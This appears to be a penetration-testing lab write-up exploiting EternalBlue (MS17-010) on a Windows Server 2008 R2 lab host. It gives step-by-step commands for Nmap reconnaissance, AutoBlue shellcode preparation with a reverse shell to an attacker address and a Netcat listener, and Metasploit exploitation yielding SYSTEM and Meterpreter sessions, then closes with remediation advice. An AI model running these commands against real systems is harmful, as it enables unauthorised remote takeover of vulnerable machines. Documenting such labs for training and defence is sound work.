# EternalBlue (MS17-010)

**Classification:** Assessment Methodologies / Vulnerability Assessment<br>
**Target:** 10.10.10.12 (Windows Server 2008 R2 Standard SP1 x64)<br>
**Attacker:** 10.10.10.10

## 1. Executive Summary

The target exposes **SMBv1** on port 445 and is vulnerable to **EternalBlue (MS17-010 /
CVE-2017-0143)**, a critical remote code execution flaw. After confirming the
vulnerability with an Nmap NSE script, we exploit it two ways: manually with the **AutoBlue**
scripts (custom shellcode + Netcat listener) and automatically with **Metasploit**. Both
yield a shell running as **NT AUTHORITY\SYSTEM**.

## 2. Reconnaissance

```bash
sudo nmap -sV -p 445 -O 10.10.10.12
```

Port `445/tcp` (microsoft-ds) is open on a **Windows Server 2008 R2 - 2012** host.



## 3. Vulnerability Check

```bash
sudo nmap -sV -p 445 --script=smb-vuln-ms17-010 10.10.10.12
```



The script confirms the host is **VULNERABLE** to MS17-010 (CVE-2017-0143, risk factor
HIGH).



## 4. Method A — Manual Exploitation with AutoBlue

After cloning and installing the **AutoBlue-MS17-010** repository, we review its contents
(the `eternalblue_exploit*.py` scripts and `shell_prep.sh`).

```bash
ls -al
```



We enter the `shellcode` folder, where the preparation script lives.

```bash
cd shellcode
```



Running the preparation script compiles the kernel shellcode and uses msfvenom to generate
the reverse-shell payloads (LHOST `10.10.10.10`, LPORT `1234`).

```bash
./shell_prep.sh
# LHOST: 10.10.10.10 | LPORT: 1234 | cmd shell (1) | stageless (1)
```



Both the x64 and x86 payloads are generated and merged.



We launch the exploit against the target using the generated x64 shellcode.

```bash
python eternalblue_exploit7.py 10.10.10.12 shellcode/sc_x64.bin
```



With a Netcat listener on the chosen port we catch the reverse shell as SYSTEM.

```bash
nc -nvlp 1234
whoami
# nt authority\system
```



## 5. Method B — Automatic Exploitation with Metasploit

The same result can be achieved with Metasploit, which stores the results in its database.

```bash
search eternalblue
```



We select the EternalBlue exploit module.

```bash
use exploit/windows/smb/ms17_010_eternalblue
```



```bash
set RHOSTS 10.10.10.12
set LHOST 10.10.10.10
```



Running the exploit first checks the target (likely vulnerable) and then launches the
attack.

```bash
exploit
```



The ETERNALBLUE overwrite completes successfully and a Meterpreter session is opened.



## 6. Remediation Recommendations

1. **Apply the MS17-010 patch** (March 2017) on all affected Windows systems.
2. **Disable SMBv1** entirely; use SMB 2/3 only.
3. **Restrict SMB exposure:** block port 445 from untrusted networks and segment internal
   networks to limit lateral movement.
4. **Decommission end-of-life systems** such as Windows Server 2008 R2 that no longer
   receive security updates.
